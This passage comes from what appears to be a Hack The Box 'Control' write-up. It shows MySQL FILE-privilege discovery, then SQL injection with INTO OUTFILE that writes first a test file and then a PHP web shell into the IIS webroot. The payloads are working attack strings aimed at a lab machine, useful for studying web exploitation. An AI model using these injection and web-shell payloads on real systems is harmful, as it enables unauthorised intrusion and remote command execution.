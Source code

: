 

So far so god. We get some hashes and discovery privileges of user in database. **hector** and **root** has **FILE** privilege:

```mysql
'hector'@'localhost':FILE:YES
----snip--------------------
'root'@'localhost':FILE:YES
```

Lets try upload some file. Follow the **rules of dumb** and **kiss** principle,  start wih some little text file with 10 **A**' s. 

```php
productName=' union select 1,2,3,4,5,"AAAAAAAAAA" INTO OUTFILE "C:\\inetpub\\wwwroot\\dumb.txt"  -- #
```

We get a **mysql** error, but if we try the same command again, **mysql** tell us that file already exist.

<img src="https://raw.githubusercontent.com/dumbx90/dumbx90.github.io/master/assets/img/commons/hackthebox/control/control-upload-file-error.png" style="zoom:75%;" />



Thats right, beside the **mysql** error the file was created:



<img src="https://raw.githubusercontent.com/dumbx90/dumbx90.github.io/master/assets/img/commons/hackthebox/control/control-upload-dumb-txt.png" alt="control-upload-dumb-txt" style="zoom:67%;" />



## Command Execution



Lets create a simple php shell:

````php
<?php system($_REQUEST[\'cmd\']); ?>
````

````php
productName=' union select 1,2,3,4,5,"<?php system($_REQUEST[\'cmd\']); ?>" INTO OUTFILE "C:\\inetpub\\wwwroot\\dumb.php"  -- #
````
